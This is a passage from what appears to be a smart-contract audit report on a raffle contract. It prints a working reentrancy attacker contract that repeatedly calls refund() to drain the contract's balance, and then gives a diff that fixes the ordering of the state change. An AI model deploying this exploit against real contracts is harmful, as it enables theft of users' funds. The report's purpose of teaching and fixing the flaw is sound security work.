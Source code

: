 ```javascript

               console.log(
            "The balance of the raffle contract after attack is: %s",
            address(puppyRaffle).balance
        );
    }

```

- Attacker contract:

```javascript
contract AttackReentrant {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    receive() external payable {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }
}

```

**Recommended Mitigation:**<br />

- Change the place of where the event is emitted and where the state change is happening to avoid an reentrancy attack on the `refund` function.

```diff
    function refund(uint256 playerIndex) public {
        // @audit it also have a MEV attack in this function, front running the transaction
        address playerAddress = players[playerIndex];
        require(
            playerAddress == msg.sender,
            "PuppyRaffle: Only the player can refund"
        );
        require(
            playerAddress != address(0),
            "PuppyRaffle: Player already refunded, or is not active"
        );

+        // @audit changing the event and state change place to avoid a re entrancy attack
+       emit RaffleRefunded(playerAddress);
+       players[playerIndex] = address(0);

        payable(msg.sender).sendValue(entranceFee);

-        players[playerIndex] = address(0);
-        emit RaffleRefunded(playerAddress);
```